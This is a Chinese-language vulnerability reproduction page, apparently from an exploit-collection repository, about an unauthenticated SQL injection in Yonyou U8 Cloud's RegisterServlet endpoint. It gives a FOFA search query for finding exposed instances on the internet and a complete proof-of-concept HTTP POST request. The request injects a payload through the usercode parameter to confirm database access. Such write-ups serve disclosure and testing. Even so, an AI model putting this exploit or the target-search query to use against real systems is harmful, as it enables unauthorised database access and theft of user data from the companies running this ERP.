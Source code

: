 
# 用友 U8 Cloud RegisterServlet SQL 注入漏洞复现

### 0x01 产品简介

  用友 U8 Cloud 是用友推出的新一代云 ERP，主要聚焦成长型、创新型企业，提供企业级云 ERP 整体解决方案。

### 0x02 漏洞概述

  用友 U8 Cloud  RegisterServlet 接口处存在 SQL 注入漏洞，未授权的攻击者可通过此漏洞获取数据库权限，从而盗取用户数据，造成用户信息泄露。

### 0x03 影响范围

 所有版本

### 0x04 复现环境

FOFA：app="用友-U8-Cloud"

![](assets/1701826162-d0fa43c245df2b605057562155bde5e9.png)

### 0x05 漏洞复现 

PoC

```cobol
POST /servlet/RegisterServlet HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1

usercode=1' and substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123')),3,32)>0--
```

查询 123 的 MD5 值
